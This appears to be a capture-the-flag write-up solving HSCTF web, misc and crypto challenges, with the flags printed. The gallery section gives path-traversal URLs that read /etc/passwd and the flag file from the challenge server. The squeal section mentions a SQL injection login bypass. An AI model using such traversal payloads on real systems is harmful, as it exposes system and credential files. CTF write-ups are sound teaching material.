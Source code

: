 ### Web/gallery

![](https://i.imgur.com/fjMcICM.png)

we see that the image resouce takes an image parameter that is limited to image extentions, so we use that as our path traversal point
```
view-source:http://web1.hsctf.com:8003/image?image=a.jpg/../../../../../etc/passwd

view-source:http://web1.hsctf.com:8003/image?image=a.jpg/../../../../../flag.txt
```
>flag{1616109079_is_a_cool_number}

---

### web/squeal

![](https://i.imgur.com/D5vxuKu.png)

we see a login page with a json object, we try SQLi and it worked

![](https://i.imgur.com/LGB8MjS.png)

>flag{squ34l_n0t_sql}

---

### Misc/discord-flag

![](https://i.imgur.com/XR7faBT.png)
![](https://i.imgur.com/QhjgX26.png)

we can filter in a channel by clicking CTRL+F 

>flag{wait, it's all math? always has been}

---

### Misc/the-great-directory-egg-hunt

![](https://i.imgur.com/kjg0A1q.png)

we type the following command to find all files then cat them
```
find . -type f -print -exec cat {} \; > all
```
![](https://i.imgur.com/UgLAD72.png)

```
./Tw/3l/v3/_D/1r/s_/D3/3p/_6/Gi/TQ/Ez/file.txt
Tw3lv3_D1rs_D33p_6GiTQEz
```
>flag{Tw3lv3_D1rs_D33p_6GiTQEz}

---

### Crypto/icvc

![](https://i.imgur.com/X9OTVQ4.png)

given the following code
```
state = 1
flag = "[REDACTED]"
alphabet = "abcdefghijklmnopqrstuvwxyz"
assert(flag[0:5]+flag[-1]=="flag{}")
ciphertext = ""
for character in flag[5:-1]:
    state = (15*state+18)%29
    ciphertext+=alphabet[(alphabet.index(character)+state)%26]
print(ciphertext)
```
we tamper with it and write the following
```
state = 1
flag = "[REDACTED]"
alphabet = "abcdefghijklmnopqrstuvwxyz"
# assert(flag[0:5]+flag[-1]=="flag{}")
tmp = ""
ciphertext = "mawhxyovhiiupukqnzdekudetmjmefkqjgmqndgtnrxqxludegwovdcdmjjhw"
tmpflag=''

for character in ciphertext:
    state = (15*state+18)%29
    tmp+=alphabet[(alphabet.index(character)-state)%26]
print(tmp)

> iguessthisiswhatyouwouldcallalinearcongruentialvigenerecipher
```
